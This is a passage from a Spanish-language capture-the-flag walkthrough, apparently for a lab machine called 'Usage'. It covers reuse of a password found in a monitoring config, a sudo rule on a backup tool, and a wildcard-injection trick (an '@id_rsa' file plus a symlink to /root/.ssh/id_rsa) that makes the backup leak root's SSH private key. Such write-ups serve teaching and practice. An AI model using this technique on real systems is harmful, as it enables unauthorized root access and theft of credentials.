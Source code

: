 ```bash

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert

```
Vemos que efectivamente era su contraseña
```bash
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ 
```
Al hacer sudo -l veo que podemos ejecutar como sudo usage_management
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
Vemos que con esto podemos realizar un backup de la pagina web
```bash
xander@usage:~$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
```
Por lo que me pongo a investigar como poder usar esto a mi favor para escalar a root por lo que encontré una técnica en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------) entonces me dirigí a directorio `/var/www/html` y ejecute lo siguiente
```bash
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
```
y ejecutando la herramienta haciendo un backup obtengo la clave privada del usuario root
```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
```
